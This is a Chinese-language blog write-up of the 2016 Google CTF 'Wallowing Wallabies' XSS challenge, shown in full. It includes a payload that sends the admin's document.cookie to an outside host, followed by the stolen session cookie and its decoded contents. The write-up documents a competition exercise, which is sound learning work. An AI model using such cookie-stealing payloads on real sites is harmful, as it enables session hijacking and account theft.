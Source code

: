 title: google_ctf2016_writeup
date: 2016-05-02 13:01:12
tags:
- Blogs
- ctf
categories:
- Blogs
---

5月不减肥，6月徒悲伤...（╯－＿－）╯╧╧，5月的第一个周末就哪也没去，打了google第一年办的比赛，整体还可以，就是月到了很多奇怪的东西。。。也不知道是我们脑洞太小了，还是说google的程序员什么洞都写过。。。



# WEB

## Wallowing Wallabies
题目是一个系列的xss题目，有趣的是，最开始刚刚开始的时候，这个题目不是这样的...好像是把另一题的环境搭了过来，结果开始就误导了很多。

[https://wallowing-wallabies.ctfcompetition.com/](https://wallowing-wallabies.ctfcompetition.com/)

首先是发现有robots.txt

```
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters    HTTP:402
Disallow: /deep-blue-sea/team/paragraphs  HTTP:403
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```
首先发现只有最后一个能打开，然后题目提示说要xss盗cookie，打开发现是个给管理员的留言板，那么就知道了，开始吧。

### Part One
第一题的xss真的是比较扯淡，题目要求必须要有
```
<script src
```
这样的开头。。。还没见过这样的要求，因为站中开启了CSP，所以，这里是不能用外联js的，没关系，那就再后面再加一个script标签吧，测试下好像发现管理员不能和外部通信，那么久粗暴的使用了跳转...

```
<script src="/js/jquery-1.12.0.min.js"></script><script>window.location="http://xss.xxxx.cc?+cookie"+document.cookie</script>
```
打到了cookie，但是花了很久才找到flag，没办法...题意说不清楚...
```
green-mountains=eyJub25jZSI6IjA4ZjVhNzgxZWY3MTdjMjMiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MTk5NTc1OX0=|1461995756|4feab5409a0f36bd685bc17473cc363699790e36
```
前面解base64得到
`'{"nonce":"08f5a781ef717c23","allowed":"^/deep-blue-sea/team/vendors.*$","expiry":1461995759}'`
我们看到vendors域下得到了allowed，加上cookie查看这个页面我们的到flag，还得到了下一题的入口。
